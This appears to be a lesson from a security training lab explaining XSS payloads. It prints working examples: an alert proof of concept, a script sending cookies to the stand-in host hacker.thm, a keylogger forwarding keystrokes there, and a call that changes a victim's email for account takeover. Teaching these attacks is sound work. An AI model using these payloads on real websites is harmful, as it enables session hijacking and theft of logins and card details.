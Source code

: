 **What is a payload?**

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

  

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

  

Here are some examples of XSS intentions.

  

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

  

`<script>alert('XSS');</script>`

  

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

  

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

  

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

  

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

  

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  

`<script>user.changeEmail('attacker@hacker.thm');</script>`

  

Now that the email address for the account has changed, the attacker may perform a reset password attack.

  
The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.

Answer the questions below